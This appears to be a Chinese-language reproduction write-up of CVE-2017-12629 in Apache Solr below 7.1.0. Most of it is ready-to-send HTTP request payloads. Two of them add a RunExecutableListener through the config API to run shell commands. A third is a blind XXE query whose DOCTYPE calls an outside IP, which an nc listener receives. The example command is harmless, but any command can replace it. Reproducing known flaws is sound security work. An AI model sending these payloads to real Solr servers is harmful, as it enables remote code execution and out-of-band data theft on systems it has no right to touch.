


# Solr < 7.1.0 RCE && XXE（CVE-2017-12629）

# RCE

## 漏洞描述

Solr < 7.1.0 RCE， 无回显

RunExecutableListener类中使用了Runtime.getRuntime().exec()方法，可用于在某些特定事件中执行任意命令
使用 config API 传入 add-listener 命令即可调用 RunExecutableListener

## writeup

- 待执行命令 

```
touch /tmp/success
```

- 创建core

```
docker exec solr bash bin/solr create_core -c demo
```

- POC1

添加listener

```
POST /solr/demo/config HTTP/1.1
Host: xxxx:8983
Connection: close
Content-Type: application/json  
Content-Length: 208

{
  "add-listener" : {
    "event":"postCommit",
    "name":"newlistener",
    "class":"solr.RunExecutableListener",
    "exe":"sh",
    "dir":"/bin/",
    "args":["-c", "touch /tmp/success"]
  }
}
```

触发

```
POST /solr/demo/update HTTP/1.1
Host: xxxxx:8983
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 15

[{"id":"test"}]
```

- POC2

添加listener，直接触发

```
POST /solr/demo/config HTTP/1.1
Host: xxxxxx:8983
Connection: close
Content-Type: application/json  
Content-Length: 211

{
  "add-listener" : {
    "event":"newSearcher",
    "name":"newlistener-2",
    "class":"solr.RunExecutableListener",
    "exe":"sh",
    "dir":"/bin/",
    "args":["-c", "touch /tmp/success"]
  }
}

```

## 复现结果



# XXE

## 漏洞描述

Solr < 7.1.0 Blind XXE

在调用lucene xml解析器时确实没有对DTD和外部实体进行禁用处理，造成了Blind XXE

## writeup

- 监听 9999 端口 

```
nc -lvv 9999
```

- POC

```
GET /solr/demo/select?q={!xmlparser+v%3d'<!DOCTYPE+a+SYSTEM+"http%3a//106.53.141.62%3a9999"><a></a>'}&wt=xml&defType=xmlparserE&wt=xml&defType=xmlparser HTTP/1.1
Host: xxxx:8983
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close


```

## 复现结果


